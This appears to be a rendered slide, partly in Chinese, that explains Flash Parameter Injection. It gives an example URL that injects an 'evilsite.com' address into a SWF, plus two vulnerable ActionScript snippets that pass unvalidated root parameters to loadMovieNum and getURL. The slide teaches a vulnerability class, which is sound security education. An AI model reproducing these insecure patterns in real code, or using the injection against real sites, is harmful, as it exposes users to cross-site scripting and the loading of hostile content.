

# Flash Parameter Injection
通过类似http://xeye.us/fpi.swf?url=http://www.evilsite.com的方式，将恶意数据传进flash的as脚本中处理执行
Cross-Site Flashing as脚本
if (_root.movieURI == undefined) {
   _root.movieURI = "http://host/movie.swf";
}
loadMovieNum(_root.movieURI, 1);
Cross-Site Scripting through Flash as脚本
if (_root.url == undefined) {
	 _root.url = "http://host/";
}
getURL(_root.url);
more from http://blog.watchfire.com/FPI.ppt